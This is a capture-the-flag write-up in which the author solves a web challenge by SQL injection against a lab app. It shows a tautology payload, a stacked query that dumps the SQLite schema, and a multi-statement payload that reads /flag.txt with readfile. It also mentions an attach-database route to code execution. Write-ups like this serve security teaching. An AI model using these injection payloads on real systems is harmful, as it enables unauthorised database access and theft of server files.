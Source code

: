 ```yaml
---
title: CyberHeroinesCTF 2023 - Shafrira Goldwasser
date: Sun Sep 10 10:53:21 PM +04 2023
categories: [Writeup]
tags: [ctf,cyberheroinesctf,cyberheroinesctf2023,web,sqli]
---
```


## Shafrira Goldwasser

[Shafrira Goldwasser](https://en.wikipedia.org/wiki/Shafi_Goldwasser)  (Hebrew: שפרירה גולדווסר; born 1959) is an Israeli-American computer scientist and winner of the Turing Award in 2012. She is the RSA Professor of Electrical Engineering and Computer Science at Massachusetts Institute of Technology; a professor of mathematical sciences at the Weizmann Institute of Science, Israel; the director of the Simons Institute for the Theory of Computing at the University of California, Berkeley; and co-founder and chief scientist of Duality Technologies.

## Description

Chal: I asked ChatGPT to make this  [webapp](https://cyberheroines-web-srv4.chals.io/)  but I couldnt prove it was secure. In honor of  [this Turing Award winner](https://www.youtube.com/watch?v=DfJ8W49R0rI), prove it is insecure by returning the flag.

Alternate (Better) Link:  [Webapp](http://ec2-3-144-228-78.us-east-2.compute.amazonaws.com:6264/)

Author:  [TJ](https://www.tjoconnor.org/)

Source: [webapp.zip](https://cyberheroines.ctfd.io/files/53d484fce0d4e7b2e68170dcae1a9a0e/webapp.zip?token=eyJ1c2VyX2lkIjo1ODQsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjIyfQ.ZP4IzA.NPMDoOb-pblLrryOmKCLi8oqrGc "webapp.zip") (Provided later)

## Solution

![Shafrira-Goldwasser-1](/assets/images/CyberHeroinesCTF/2023/Shafrira-Goldwasser-1.png)

Website let's us choose Cyber Heroine and read their biography. The most probable attack vector seems SQLi, because data comes from somewhere. Quickly testing the classic payload: `' OR 1=1 --`

![Shafrira-Goldwasser-2](/assets/images/CyberHeroinesCTF/2023/Shafrira-Goldwasser-2.png)

SQLi is confirmed.

Now we need to identify DBMS. Since the application is simple and small it's probably SQLite3.

Trying simple payload: `'; SELECT sql FROM sqlite_schema --` (The query turned out to allow different queries, so no need for UNION)

```sql
CREATE  TABLE "cyberheroines" ("name"  TEXT, "biography"  TEXT) 
```

Hmmm... There's only one table? We already looked at the records previously, so where is the flag?

Looking into [PayloadsAllTheThings: SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database): "Remote Command Execution using SQLite command - Attach Database". We can potentially gain RCE from SQLi, if we manage to attach new database and execute php code. This route already failed because application runs on Python and not PHP.

![Shafrira-Goldwasser-3](/assets/images/CyberHeroinesCTF/2023/Shafrira-Goldwasser-3.png)

But we can create a database, insert arbitrary file contents into it, read database for profit.

```sql
';
CREATE TABLE letmein (uwu TEXT);
INSERT INTO letmein VALUES (readfile('/flag.txt'));
SELECT * FROM letmein;
DROP TABLE letmein;
/*
```

1. Escape quote for SQLi
2. Create table
3. Read flag file \[[8.3. File I/O Functions: readfile](https://sqlite.org/cli.html)\]
4. Read from table
5. Discard table (Challenge is ongoing after all)

> Flag: chctf{CH4ng3d_h0w_w3_th1Nk_of_pr00f$}
{: .prompt-tip }

## Note

If challenge is broken you know who to blame <!-- krississy (╯°□°）╯︵ ┻━┻ -->

![broken](/assets/images/CyberHeroinesCTF/2023/Shafrira-Goldwasser-Broken.png)